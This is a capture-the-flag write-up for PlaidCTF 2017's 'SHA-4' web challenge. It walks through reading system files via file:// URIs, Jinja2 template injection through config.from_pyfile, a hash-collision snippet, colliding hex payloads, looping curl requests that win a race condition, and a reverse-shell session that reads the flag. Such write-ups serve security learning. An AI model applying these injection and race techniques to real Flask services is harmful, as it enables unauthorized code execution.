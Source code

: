 ```yaml
---
layout: post
title: "PlaidCTF 2017 - SHA-4"
category: writeups
authors: [thezero, jbz]
tags: plaidctf-2017 web
---
```


## SHA-4
Web - 300 Points


### Writeup

This challenge provided two forms, one which allowed to upload fomments and a textarea which would parse an hex encoded, ans1 enveloped input.

Solution *tl;dr*

    local file read, hash collision, template injection, race condition


#### Directory Traversal

It is trivial to find a directory traversal by using the `file://` uri scheme instead of the intended `http://` or `https://` ones. Once We got file-reading access, by getting the system version from `file:///etc/issue` and getting the cmdline from `file:///proc/self/cmdline` we found the directory of the python webapp: `/var/www/sha4`.

By guessing we found out that the directory contained those 2 files:
[server.py]({{ site.url }}/assets/PlaidCTF2017/sha4_server.py)
[sha4.py]({{ site.url }}/assets/PlaidCTF2017/sha4_sha4.py)

By checking the code we can see a possible template injection here:

    return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))

However we can't directly send an input containing characters such as `{}` or `/` because the function `is_unsafe()` check if our comments contains chars not whitelisted in `string.ascii_letters + string.digits + " ,.:()?!-_'+=[]\t\n<>"` before rendering it.

The code however seems a little strange for what it is intended to do, let's check the whole `comments()` function:

{% highlight python %}
try:
  encoded = request.form['comment']
  encoded.replace("\n","\r")
  ber = encoded.decode("hex")
except TypeError:
  return render_template_string(bad)
f = "/var/tmp/comments/%s.txt"%hash(ber).encode("hex")
  
out_text = str(decode(ber))
open(f, "w").write(out_text)

if is_unsafe(out_text):
  return render_template_string(unsafe)

commentt = comment % open(f).read()
return render_template_string(commentt, comment=out_text.replace("\n","<br/>"))
{% endhighlight %}

So the code does the following:

 - hex decode the comment POST parameter
 - calculate the 'sha4' hash of the input
 - set the path /var/tmp/comments/<hash>.file as output
 - asn1 ber decode the input
 - write the decoded input to the file
 - check if it contain unsafe characters
 - if the previous check is false render the template

#### Template Injection

Since the webapp use Flask, so we can grab the code needed from [Exploring SSTI in flask](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/) which hash the following requirements to achieve Command Execution:

 - upload a python reverse shell payload
 - inject `{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}` in the render_template function

Uploading is simple, we just need to upload the file using the upload form and calculate its path with the `sha4` function.  
The second point is the hard one.  
If we take a closer look at the `comments()` function we can notice there's something a little unusual: why would the programmer write the input to disk, check if it's safe and read it back? It is already in the `out_text` variable!

This seem coded to create a race condition situation and make the challenge solvable.
So basically, to exploit the template injection we need to:

 - find a `sha4` hash collision between two asn1 encoded strings: one containing `{{ config.from_pyfile('/var/tmp/comments/<hash>.file') }}` and a safe one (which means without `{}` and `/`)
 - send both requests as fast as we can to have enough luck to exploit the race condition by overwriting the file `/var/tmp/comments/<collided hash>.txt` with the malicious payload while the script has passed the is_unsafe() check on the safe payload


#### Collision!

We find out that finding a collision was pretty easy.
For every char there was a colliding one for each position in the DES key (see sha4.py file).

So we calculate each colliding char in each position for out 3 forbidden char (`{}/`) with this small snippet

{% highlight python %}
def char_position_collision(char):
    for j in xrange(7):
        m1 = "a"*j + char
        for i in xrange(0,256):
            m2 = "a"*j+chr(i)
            if m1 != m2 and hash(m1) == hash(m2):
                print(m1,m2)
                break
char_position_collision("{")
char_position_collision("}")
char_position_collision("/")
{% endhighlight %}

Then we wrote this [script]({{ site.url }}/assets/PlaidCTF2017/sha4_find_payload.py) that:

 1. take our "bad" payload, for each "bad" character replace it with it's relative collision
 2. set dummy padding at the start and at the end of the payload, since the hash function was appending a padding block that needs to collide as well. 
 3. encode both "good" and "bad" payload as ASN.1
 4. hash them!

Here the 2 payload, ASN.1 encoded
```
0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161
0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161
```

#### Finally, the Flag

Once we have the colliding payloads we just have to send both requests, as fast as we can, possibly using multiple threads; so from a server with a fast connection we can simply open multiple tmux sessions, running one of the following command is each
{% highlight shell %}
while true; do curl --data 'comment=0459616b73636f6e6669672e66726f6d5f707966696c652820222e2e2e2e2e3f746d702e636f6d6d656e74730f64643331623464633435346336656337653031343736653032663865656163342e66696c652229203d5d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}
{% highlight shell %}
while true; do curl --data 'comment=0459617b7b636f6e6669672e66726f6d5f707966696c652820222e2e2f2e2e2f746d702f636f6d6d656e74732f64643331623464633435346336656337653031343736653032663865656163342e66696c652229207d7d61616161' http://sha4.chal.pwning.xxx/comments; done;
{% endhighlight %}

After a while the reverse shell should call back to our netcat listener:  

{% highlight shell %}
$ whoami
www-data
$ uname -a
Linux chal-sha4 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ pwd
/var/www
$ ls
html
sha4
$ ls sha4
flag_bilaabluagbiluariglublaireugrpoop
server.py
server.pyc
sha4.py
sha4.pyc
sha4.wsgi
static
templates
$ cat sha4/flag_bilaabluagbiluariglublaireugrpoop
PCTF{th3 security aspect of cyber is very very tough}
{% endhighlight %}

